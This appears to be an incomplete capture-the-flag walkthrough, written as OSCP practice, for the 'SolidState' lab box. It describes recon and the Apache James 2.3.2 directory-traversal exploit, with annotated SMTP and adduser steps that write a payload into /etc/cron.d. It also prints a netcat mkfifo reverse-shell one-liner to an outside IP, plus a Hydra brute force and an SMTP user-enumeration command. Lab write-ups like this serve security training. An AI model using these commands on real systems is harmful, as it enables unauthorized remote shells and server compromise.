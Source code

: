 
Name: SolidState
Date:  
Difficulty:  Medium
Goals:  OSCP Prep
Learnt:
- Weird Ports are sometimes the  target and normality is rabbithole

Disclaimer I ran into the rsip protocol, the primilary exploit for this machine and walkthrough forgetting this a TJ Null box. I do not know the PrivEsc and di not read it. The challenge here would be very OSCP-esque recon or die; rerunning old recon attempts from long months past,  in the background being the other OSCP-esque methodological must for me returning to this box regardless of sort of knowing how the inital steps of this box are.  There is also a metasploit module for the intital phase of the box.

## Recon
The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![](ping.png)

Considering I already knew this stuff, but is not obvious to a random person trying this box. Just wait for prompts with nc. It makes no intuitive sense regardly, but these systems seem like a begone age that stil exist in the real world behind modern tech and teams.

![](waitforit.png)

![](defaultcreds.png)

Public exploits avilabel for the [James 2.3.2](https://en.wikipedia.org/wiki/Apache_James) is the Java Apache Mail Enterprise Server, it manages the Apache Mailet API.
![](searchsploit.png)
I research the python3 version of the exploit that was unverified, which works, similiarly requires requires login. As all versions with cron.d wont work.

Metasploit exploit description: 
*"This module exploits a vulnerability that exists due to a lack of input validation when creating a user. Messages for a given user are stored in a directory partially defined by the username. By creating a user with a directory traversal payload as the username, commands can be written to a given directory. To use this module with the cron exploitation method, run the exploit using the given payload, host, and port. After running the exploit, the payload will be executed within 60 seconds. Due to differences in how cron may run in certain Linux operating systems such as Ubuntu, it may be preferable to set the target to Bash Completion as the cron method may not work. If the target is set to Bash completion, start a listener using the given payload, host, and port before running the exploit. After running the exploit, the payload will be executed when a user logs into the system. For this exploitation method, bash completion must be enabled to gain code execution. This exploitation method will leave an Apache James mail object artifact in the /etc/bash_completion.d directory and the malicious user account."*


The metasploit version; perform sversion checks, creates a user that will be re

```ruby
# The java Message objects for this user will now be stored in
# Either /etc/bash_completion.d or /etc/cron.d
# if it is a cron then
adduser ../../../../../../../../etc/$choice $password
# Delete mail objects containing payload from cron.d

# Then it send the payload to the 25 port
# connect to 25
ehlo admin@apache.com 
# added the extra quote to make this more readable in the line below!
mail from: <''@apache.com> 
rcpt to: ../../../../../../../../etc/cron.d # 60 secs its back
# RCPT TO command tells the SMTP mail server to who the message should be sent
data
From: admin@apache.com
```

References 
[Debug STMP connection for great description of SMTP commands that occuring exploitation of MAil servers](https://www.sparkpost.com/blog/how-to-check-an-smtp-connection-with-a-manual-telnet-session/)
[Metasploit Module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/smtp/apache_james_exec.rb)

The non metasploit route requires Python2.7 and some modifications
![](exploitmodification.png)
Changes to the `rcpt to` and `adduser` commands as well as the payload, which initially failed. I checked with metasploit the default being with cron.d. **Note I did remove the `>` in s.send() line** and retest.

```bash
# One window/pane to catch the cron
nc -lvnp 110
# One window/pane for second shell
nc -lvnp 111
# Reverse shell for the cron shell to paste in to save time
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.109 111 >/tmp/g
# Copy and wait...to paset
```

which initially failed, checked with metasploit the default being with cron.d - change payload as double check, but again it failed.
![](crondnotworking.png)

Therefore we have to find another way to get ssh login to the box and this would then lead to potential lead to root on the box. Reminder, but for linearities sake will testing options, I also researched the python3 version of the exploit that was unverified, which works, just requires login. 

Background hydra
![](hydrainthebackground.png)

Recon or die and therefore testing server for memory leakage on eol version of apache
![](checkingtheapache.png)
Ran multiple times and did `-n 100`; same result each time, is it not [Optionsbleed](https://nvd.nist.gov/vuln/detail/CVE-2017-9798), just the bug. It may be [Apache bug #61207](https://bz.apache.org/bugzilla/show_bug.cgi?id=61207).

## Exploit

## Foothold

## PrivEsc


## Metasploit 

```bash
use auxiliary/scanner/smtp/smtp_enum; set rhosts $IP; set rport 25; set USER_FILE /usr/; exploit -j;
```



